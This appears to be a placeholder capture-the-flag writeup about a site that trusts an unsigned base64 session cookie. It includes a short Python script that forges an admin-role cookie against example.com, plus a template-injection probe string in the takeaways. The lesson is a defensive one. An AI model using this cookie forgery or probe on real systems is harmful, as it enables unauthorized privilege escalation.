

<!-- TODO: replace this example writeup -->

## Challenge

The site hands out a session cookie after login and trusts whatever role it carries.

## Recon

Logging in as a regular user and looking at the request shows a cookie that decodes cleanly.



## Solution

The cookie is base64 without any signature, so it can be edited and sent back.

```python
import base64

import requests

cookie = base64.b64encode(b'{"user": "guest", "role": "admin"}').decode()
response = requests.get("https://example.com/admin", cookies={"session": cookie})
print(response.text)
```

## Takeaways

- Never trust client-side state that is not signed.
- Template payloads such as `{{7*7}}` can be pasted as they are: Liquid is switched off inside writeups.
